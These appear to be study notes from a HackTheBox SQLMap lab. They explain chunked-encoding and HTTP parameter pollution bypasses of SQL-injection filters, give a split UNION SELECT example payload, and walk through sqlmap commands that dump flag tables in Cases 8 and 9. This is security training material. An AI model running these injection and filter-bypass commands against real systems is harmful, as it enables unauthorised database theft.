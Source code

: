 ## Miscellaneous Bypasses

Out of other protection bypass mechanisms, there are also two more that should be mentioned. The first one is the `Chunked` transfer encoding, turned on using the switch `--chunked`, which splits the POST request's body into so-called "chunks." Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed.

The other bypass mechanisms is the `HTTP parameter pollution` (`HPP`), where payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`), which are concatenated by the target platform if supporting it (e.g. `ASP`).


# Questions
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204174249.png)

## Case 8
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204174531.png)

Let's use the following:

```
python3 sqlmap.py -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
```

We get this:

```
Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+
```

Flag is `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`

## Case 9
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204175407.png)

Let's use the following sqlmap command:

```
python3 sqlmap.py -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
